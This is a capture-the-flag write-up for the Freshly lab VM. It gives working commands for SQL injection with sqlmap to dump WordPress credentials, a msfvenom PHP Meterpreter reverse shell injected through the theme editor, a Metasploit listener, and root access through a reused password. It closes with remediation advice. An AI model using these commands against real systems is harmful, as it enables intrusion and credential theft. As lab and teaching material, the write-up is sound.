




# TopHatSec: Freshly — Writeup

| Field | Value |
|---|---|
| **Target IP** | 192.168.1.112 |
| **Difficulty** | Easy |
| **OS** | Linux |
| **Goal** | root access and sensitive file |
| **Source** | [HackingArticles](http://www.hackingarticles.in/hack-freshly-vm-ctf-challenge/) |

## Attack Summary

TopHatSec: Freshly runs three web services (ports 80, 443, 8080). Port 80 hosts a login page vulnerable to SQL injection, which yields WordPress admin credentials stored in a secondary database (`wordpress8080`). Port 8080 hosts a WordPress installation. The attacker authenticates to WordPress with the recovered credentials, injects a PHP Meterpreter payload into the theme editor, and uses the WordPress admin password a second time with `su -` to escalate to root.

## Methodology

1. Host discovery — Netdiscover
2. Multi-port scan — Nmap
3. Web reconnaissance — Nikto
4. SQL injection database dump — sqlmap
5. WordPress admin access and theme editor code injection
6. Meterpreter reverse shell via msfvenom + Metasploit handler
7. Privilege escalation via password reuse

## Step 1: Host Discovery and Port Scanning

```bash
netdiscover -r 192.168.1.0/24
nmap -p- -A 192.168.1.112
```

Open ports:
- `80/tcp` — HTTP (login page)
- `443/tcp` — HTTPS
- `8080/tcp` — HTTP (WordPress)



## Step 2: Web Reconnaissance with Nikto

```bash
nikto -h http://192.168.1.112
```

Nikto identifies `login.php` on port 80 as an attack surface.


## Step 3: SQL Injection with sqlmap

Enumerate databases via the login form, using high risk and level settings to maximize detection coverage:

```bash
sqlmap -u 'http://192.168.1.112/login.php' --forms --risk=3 --level=5 --dbs
```

The database `wordpress8080` is identified. Dump its contents:

```bash
sqlmap -u 'http://192.168.1.112/login.php' --forms -D wordpress8080 --risk=3 --level=3 --dump-all
```

Recovered credentials:

```
Username: admin
Password: SuperSecretPassword
```



## Step 4: WordPress Theme Editor Code Injection

Log in to WordPress at `http://192.168.1.112:8080/wp-admin` using the recovered credentials (`admin` / `SuperSecretPassword`).

Generate a PHP Meterpreter payload:

```bash
msfvenom -p php/meterpreter/reverse_tcp lhost=192.168.1.132 lport=4444 -f raw
```

Copy the generated PHP code (from `<?php` through `die()`). In the WordPress admin panel, navigate to:

```
Appearance > Theme Editor > 404.php
```

Insert the Meterpreter code into `404.php` and save. Trigger the 404 template by navigating to any non-existent WordPress page.



## Step 5: Start Metasploit Listener and Catch Shell

```bash
msfconsole
use exploit/multi/handler
set payload php/meterpreter/reverse_tcp
set lhost 192.168.1.132
set lport 4444
exploit
```

A Meterpreter session opens. Upgrade to a proper shell:

```bash
python -c 'import pty;pty.spawn("/bin/bash")'
```

## Step 6: Privilege Escalation via Password Reuse

The WordPress admin password is reused as the system root password. Run:

```bash
su -
# Password: SuperSecretPassword
id
# uid=0(root) gid=0(root)
cat /root/secret
```



## Lessons Learned

- SQL injection against login forms yields credentials that can pivot to completely separate services (WordPress on a different port). Credential reuse between the web application database and system accounts is a compounding risk.
- WordPress's theme editor is a direct PHP code execution interface available to any admin user. It should be disabled in production with the constant `define('DISALLOW_FILE_EDIT', true)` in `wp-config.php`.
- Password reuse between application accounts and OS accounts means that a credential theft at the application layer immediately becomes a system-level compromise.
- Running multiple web services on a single host without segmentation broadens the attack surface considerably.

## Remediation

| Vulnerability | Fix |
|---|---|
| SQL injection on login form | Use parameterized queries; never concatenate user input into SQL |
| WordPress theme editor enabled | Add `define('DISALLOW_FILE_EDIT', true)` to `wp-config.php` |
| Password reuse between app and OS | Use unique, strong passwords for each service and system account; enforce password managers |
| Admin credentials in database | Hash passwords with bcrypt or Argon2; rotate credentials after any database dump |
| Multi-service attack surface | Isolate services to separate VMs or containers; use network segmentation and firewall rules |
